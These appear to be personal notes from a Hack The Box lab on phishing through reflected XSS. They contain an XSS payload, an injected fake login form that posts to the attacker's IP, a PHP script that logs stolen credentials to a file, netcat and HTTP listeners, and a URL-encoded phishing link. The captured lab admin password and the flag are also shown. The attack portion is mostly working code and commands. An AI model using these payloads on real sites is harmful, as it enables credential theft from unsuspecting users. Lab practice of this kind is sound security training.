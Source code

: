# Phishing

## XSS Discovery

git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py

## Login Form Injection

OUR_IP = ip of our VM

<h3>Please login to continue</h3>
<form id='urlform' action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>


document.write('<h3>Please login to continue</h3><form id='urlform' action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');


## Cleaning Up

document.getElementById('urlform').remove();

document.write('<h3>Please login to continue</h3><form id='urlform' action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();

## Credential Stealing

python3 -m http.server 80

sudo nc -lvnp 80

connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...

Create a PHP file so the user won't get an HTTP error

mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi index.php

<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>

sudo php -S 0.0.0.0:8081


cat creds.txt
Username: test | Password: test

## LAB

http://10.129.218.230/phishing/

http://10.129.218.230/phishing/index.php?url=test

### XSS Discovery

git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py

python xsstrike.py -u "http://10.129.218.230/phishing/index.php?url=test" 

[~] Checking for DOM vulnerabilities 
[+] WAF Status: Offline 
[!] Testing parameter: url 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 3096 
------------------------------------------------------------
[+] Payload: '><Html%09ONmoUSeOver+=+[8].find(confirm)%0dx// 
[!] Efficiency: 100 
[!] Confidence: 9 
[?] Would you like to continue scanning? [y/N] 

### Test Reflected XSS

<script>alert(window.origin)</script>

--> Failed

'><script>alert(window.origin)</script>// 

--> OK

### Login Form Injection

mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi index.php

<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.129.218.230/phishing/index.php");
    fclose($file);
    exit();
}
?>

sudo php -S 0.0.0.0:8081

'>document.write('<h3>Please login to continue</h3><form id='urlform' action=http://10.10.15.90:8081><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');// 

--> Form OK

cat /tmp/tmpserver/creds.txt 
Username: yanis | Password: nisya

### Phishing

http://10.129.218.230/phishing/send.php

Add URL :

http://10.129.218.230/phishing/index.php?url=%27%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+id%3D%27urlform%27+action%3Dhttp%3A%2F%2F10.10.15.90%3A8081%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3B%2F%2F+


cat /tmp/tmpserver/creds.txt 
Username: yanis | Password: nisya
Username: admin | Password: p1zd0nt57341myp455

http://10.129.218.230/phishing/login.php

HTB{r3f13c73d_cr3d5_84ck_2_m3}

### Cleaning Up

http://10.129.218.230/phishing/

'document.write('<h3>Please login to continue</h3><form id='urlform' action=http://10.10.15.90:8081><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>;document.getElementById('urlform').remove();// 

???